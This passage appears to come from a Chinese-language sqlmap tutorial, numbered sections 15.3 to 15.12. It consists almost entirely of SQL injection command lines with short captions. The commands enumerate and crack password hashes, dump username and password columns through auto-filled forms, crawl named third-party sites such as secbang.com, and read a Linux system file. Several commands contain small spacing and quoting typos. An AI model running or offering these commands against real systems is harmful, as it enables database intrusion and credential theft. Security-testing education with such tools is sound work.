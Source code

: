 > sqlmap.py -u"http://targeturl/param1/value1*/param2/value2/"

### 15.3 列举并破解密码哈希值
当前用户有权限读取包含用户密码的权限时，sqlmap会现列举出用户，然后列出hash，并尝试破解。

> sqlmap.py -u"http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --passwords -v1

### 15.4 获取表中的数据个数
> sqlmap.py -u"http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --count -Dtestdb

### 15.5 对网站secbang.com进行漏洞爬去
> sqlmap.py -u "http://www.secbang.com"--batch --crawl=3

### 15.6 基于布尔SQL注入预估时间
> sqlmap.py -u "http://192.168.136.131/sqlmap/oracle/get_int_bool.php?id=1"-b --eta

### 15.7 使用hex避免字符编码导致数据丢失
> sqlmap.py -u "http://192.168.48.130/pgsql/get_int.php?id=1" --banner --hex -v 3 --parse-errors

### 15.8.模拟测试手机环境站点
> python sqlmap.py -u"http://www.target.com/vuln.php?id=1" --mobile

### 15.9 智能判断测试
> sqlmap.py -u "http://www.antian365.com/info.php?id=1"--batch --smart

### 15.10 结合burpsuite进行注入
1. burpsuite抓包，需要设置burpsuite记录请求日志
> sqlmap.py -r burpsuite抓包.txt

2. 指定表单注入
> sqlmap.py -u URL --data“username=a&password=a”

### 15.11 sqlmap自动填写表单注入
自动填写表单：
```
sqlmap.py -u URL --forms 

sqlmap.py -u URL --forms --dbs

sqlmap.py -u URL --forms --current-db

sqlmap.py -u URL --forms -D 数据库名称--tables

sqlmap.py -u URL --forms -D 数据库名称 -T 表名 --columns

sqlmap.py -u URL --forms -D 数据库名称 -T 表名 -Cusername，password --dump
```

### 15.12读取linux下文件
> sqlmap.py-u "url" --file /etc/password
